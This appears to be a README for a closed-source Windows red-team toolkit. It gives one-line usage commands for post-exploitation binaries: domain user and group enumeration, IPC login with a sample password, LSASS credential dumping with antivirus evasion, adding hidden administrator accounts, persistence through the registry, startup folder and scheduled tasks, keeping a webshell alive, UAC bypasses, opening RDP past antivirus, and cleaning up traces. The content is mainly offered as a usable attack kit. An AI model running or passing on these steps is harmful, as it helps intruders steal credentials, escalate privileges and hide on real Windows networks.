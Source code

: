 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

```
Notes:
Some tools introduce you can go to my blog, you can get more design details

Blog address:
https://yangsirrr.github.io/
```

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your EXE

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-3.png)

## 15Taskplan To Backup Your WEBSHELL

```
15x32.exe C:\phpstudyWWW\shell.php A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145033771.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145309610.png)
## 16Use The Registry To Bypassuac(BypassAV)
```
Now this program have six plans to bypassuac in win10 maybe can use in win7(I don't have win7 machine to test)
you can easy to use, such as 16x64.exe 1or2or3or4or5or6 cmd.exe
16x64.exe 5 cmd.exe
```
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/1.png)
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/2.png)

## 17Use DLL Hijack To Bypassuac

```
After a simple test, two methods win10, Win11 can be successfully used
make sure upload the exe&jpg to your target windows, you can easy to use:
pic1_a.exe or pic2_a.exe

when you success, don't forget to clean up the tracks:
picall_clean.exe
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009131805909.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009143909641.png)

```
bypass result
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/bypass.gif)

## 18Fast Open Rdpport(BypassAV)

```
Easy to open the rdpport win10 can be success
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/18.gif)

```
bypass360
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/18-2.gif)
